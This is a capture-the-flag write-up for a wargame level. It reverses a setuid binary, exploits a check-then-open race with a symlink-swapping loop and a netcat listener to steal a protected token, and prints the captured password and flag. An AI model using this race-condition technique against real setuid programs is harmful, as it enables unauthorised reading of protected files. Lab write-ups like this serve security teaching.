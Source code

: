 ## Step 1: Identifying the User

We begin by checking our current user informations:

```bash
$ id
uid=2010(level10) gid=2010(level10) groups=2010(level10),100(users)
```

This shows that we are operating as the user `level10`.

---
## Step 2: Searching for Files

```bash
$ ls -la
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-rw-------  1 flag10  flag10     26 Mar  5  2016 token


$ file level10
level10: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xf7e21fb68568fa57d6317d0535b97d9fca66f841, not stripped

$ file token
token: regular file, no read permission
```
The level10 binary is a setuid ELF executable, meaning it executes with flag10 user's privileges.


---
## Step 3: Reversing Binary with Ghidra

```c
void main(int param_1,undefined4 *param_2)

{
  char *__cp;
  uint16_t uVar1;
  int iVar2;
  int iVar3;
  ssize_t sVar4;
  size_t __n;
  int *piVar5;
  char *pcVar6;
  int in_GS_OFFSET;
  undefined local_1024 [4096];
  sockaddr local_24;
  int local_14;
  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (param_1 < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n",*param_2);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  pcVar6 = (char *)param_2[1];
  __cp = (char *)param_2[2];
  iVar2 = access((char *)param_2[1],4);
  if (iVar2 == 0) {
    printf("Connecting to %s:6969 .. ",__cp);
    fflush(stdout);
    iVar2 = socket(2,1,0);
    local_24.sa_data[2] = '\0';
    local_24.sa_data[3] = '\0';
    local_24.sa_data[4] = '\0';
    local_24.sa_data[5] = '\0';
    local_24.sa_data[6] = '\0';
    local_24.sa_data[7] = '\0';
    local_24.sa_data[8] = '\0';
    local_24.sa_data[9] = '\0';
    local_24.sa_data[10] = '\0';
    local_24.sa_data[0xb] = '\0';
    local_24.sa_data[0xc] = '\0';
    local_24.sa_data[0xd] = '\0';
    local_24.sa_family = 2;
    local_24.sa_data[0] = '\0';
    local_24.sa_data[1] = '\0';
    local_24.sa_data._2_4_ = inet_addr(__cp);
    uVar1 = htons(0x1b39);
    local_24.sa_data._0_2_ = uVar1;
    iVar3 = connect(iVar2,&local_24,0x10);
    if (iVar3 == -1) {
      printf("Unable to connect to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    sVar4 = write(iVar2,".*( )*.\n",8);
    if (sVar4 == -1) {
      printf("Unable to write banner to host %s\n",__cp);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    printf("Connected!\nSending file .. ");
    fflush(stdout);
    iVar3 = open(pcVar6,0);
    if (iVar3 == -1) {
      puts("Damn. Unable to open file");
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    __n = read(iVar3,local_1024,0x1000);
    if (__n == 0xffffffff) {
      piVar5 = __errno_location();
      pcVar6 = strerror(*piVar5);
      printf("Unable to read from file: %s\n",pcVar6);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    write(iVar2,local_1024,__n);
    puts("wrote file!");
  }
  else {
    printf("You don\'t have access to %s\n",pcVar6);
  }
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

### Explanation

The binary has a race condition vulnerability due to the access() check being performed before the open() call. This means that there is a small window of time between the access check and the file being opened, during which the file (or its reference) can be swapped.

```bash
$ man access

Warning: Using these calls to check if a user is authorized to, for example, open a file before actually  doing  so  using  open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it. For this reason, the use of this system call should be avoided.
```


## Step 4: Exploiting the race condition vulnerability
We will exploit the race condition by creating a symbolic link (/tmp/exploit) that alternates between pointing to a file we control (/tmp/test) and the token file, and start an infinite loop to switch the symlink:
```bash
$ echo "..." > /tmp/test

while true; do ln -fs /tmp/test /tmp/exploit; ln -fs ~/token /tmp/exploit; done
```

In a second terminal, run another infinite loop to execute the level10 binary:
```bash
while true; do ./level10 /tmp/exploit machine_ip; done
```

Finally, in a third terminal, set up a listener on port 6969 to capture the output:
```bash
nc -lk 6969
```

### Outcome Scenarios

There are three possible outcomes:

    1. Access to token file fails: The output will be: You don't have access to /tmp/exploit.
    2. Symlink points to test file: The listener will print the contents of /tmp/test.
    3. Symlink points to token file: The listener will print the contents of ~/token, which contains the secret token.


### Listener Output
```bash
...
...
woupa2yuojeeaaed06riuj63c
...
woupa2yuojeeaaed06riuj63c
...
```

```bash
$ su flag10
Password : 
woupa2yuojeeaaed06riuj63c

% getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```
---

And there you have it, the token is `feulo4b72j7edeahuete3no7c`.